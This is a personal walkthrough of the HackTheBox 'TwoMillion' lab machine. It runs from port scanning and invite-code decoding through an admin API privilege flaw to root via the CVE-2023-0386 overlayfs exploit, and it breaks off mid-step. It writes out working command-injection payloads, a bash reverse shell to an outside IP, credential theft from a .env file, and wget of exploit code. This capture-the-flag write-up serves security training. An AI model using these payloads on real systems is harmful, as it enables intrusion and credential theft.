 # recon
- First i use **nmap -p- --min-rate=10000** 10.10.11.221 to check for open ports
- we got 2 ports open 22 and 80 we run nmap -sC -sV -p22,80 10.10.11.221
- after nmap we found port 80 has cookie  PHPSESSID: httponly flag not set
- we go check the site an no response only redirct to 2million.htb so we modify etc/hosts file with the ip to the site
- its a hackthebox site we run feroxbuster with command **feroxbuster -u http://2million.htb**
- we go check the login page i tryed admin@hackthebox.eu and password is password and we got usernotfound after several trys we also get user not found
- i try reflected xss from the url and its not working
- ![xss](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/xss.jpg)
- we try the join page and it has an invite code page we solve it like the real hackthebox challange
- refresh and look in the network tap in the devolper tools we find its send request to inviteapi.min.js and thats intersting out of all the files displayed
- we go to depuuger to get the file and coppy it and beutify it
- after buetigying the code we see two function (makeinvitecode,verifyinvitecode)
- we put makeinvitecode in the console and we see date printed with encryption type ROT13
![makeinvitecode](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/invitecode.jpg)
- we copy the data and go to cyperchef after decoding it says **In order to generate the invite code, make a POST request to /api/v1/invite/generate**
- we make post request using curl to the path **curl -X POST http://2million.htb/api/v1/invite/generate**
- we got code in base 64 after decoding **echo  V1pZRjgtRk9ETDktSDZSS1YtRTZQMVk= | base64 -d** we got it and use it to signup with email
- i try login with valid email and wrong passwor we still got usernotfound so we cant enumrate valid emails/username
- all links give server error except challnges and access page
- in access page there are 2 links (regenrate,coonectionpack)
- fireup burpsuite and send the 2 request to repeater and the 2 request gave the same response (VPN creds)
- i try playing with the directry /api/v1/user/vpn/generate from vpn adn all gave 404 or 301 except at /api/v1 it gave description of the api
# now we enumurate the api and exploit
- go to curl and  play with the routes (bruteforce))
- intersting api route /api/v1/admin/settings/update we could change user to admin
- so we go to the path /api/v1/admin/settings/update and we got 200 with messege invalid content type
- look at request and see no content type so we add one with json value **content-type : application/json** we send the request and its says missing parameter email
- we add the email parameter with our value in a json format and also is admin set to 1 and we got admin (idor vuln) we check we are admin with api route and yes we are admin
- It’s worth checking if there is any command injection.
- If the server is doing something like gen_vpn.sh [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:
- we go to generate vpn with admin and yes it has command inj **{"username":"kafafy ; id #"}** using this payload we got the id command
- we try to get shell on the machine using bash reverse shell  **{"username":"kafafy ; bash -c 'bash -i >& /dev/tcp/10.10.16.63/1234 0>&1' #"}**
- we stablize the shell using --> **python3 -c 'import pty;pty.spawn("/bin/bash")'** --> **stty raw -echo;fg** --> **export TERM=xterm**
- .env is a file is commonly used in PHP applications to store environment variable values
- we cat the file and we got admin password we su to admin and we go the home directory to get the user.txt
# now ROOT SHELL
- **find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'** to find and files owned by admin and yes we find a directory contains mail
- the email contains info about cve in overlayfs
- running Ubuntu 22.04 with the kernel 5.15.70 we search for cve for last year
- search for “linux kernel vulnerability fuse overlayfs” limited to the last year returns a bunch of stuff about CVE-2023-0386
- git clone https://github.com/sxlmnwb/CVE-2023-0386  in our machine
- tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386\ to make it compressed
- python -m http.server to send files
- cd temp --> wget 10.10.16.63:8000/CVE-2023-0386.tar.bz2 --> tar -xjvf CVE-2023-0386.tar.bz2 -- >cd CVE-2023-0386 -- >
- ./fuse ./ovlcap/lower ./gc
- 

